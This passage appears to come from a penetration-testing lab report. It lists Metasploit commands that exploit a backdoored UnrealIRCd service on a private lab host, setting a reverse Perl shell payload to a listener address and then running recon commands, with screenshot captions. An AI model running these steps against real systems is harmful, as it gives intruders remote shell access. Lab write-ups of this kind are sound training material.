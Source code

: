 ![Screenshot 18](images/im18.png)
> Figure 2.12

![Screenshot 19](images/im19.png)
> Figure 2.13 Successfully exploited the session; `whoami` outputted www-data.

### Target C: IRC

**Commands Used:**

Note:  IRC with port 6697 – port 6697 is open to `exploit` whereas port 6667 is filtered

**Commands Used:**

`nmap` -sV -p 6697 192.168.0.102

`msfconsole`

`search` irc

`use` unix/irc/unreal_ircd_3281_backdoor

`show` options

`show` payloads

`set` `RPORT` 6697

`set` `RHOSTS` 192.168.0.102

`set` payload cmd/unix/reverse_perl

`set` `LHOST` 192.168.0.100

`set` `LPORT` 4444

`exploit`

`whoami`

`uname` -a

`pwd`

`ls` -la

`exit`

Screenshot of the results:

![Screenshot 20](images/im20.png)
> Figure 2.14

![Screenshot 21](images/im21.png)
> Figure 2.15 Searching irc for available irc modules

![Screenshot 22](images/im22.png)
> Figure 2.16

![Screenshot 23](images/im23.png)
> Figure 2.17 Using unix/irc/unreal_ircd_3281_backdoor to `exploit`.
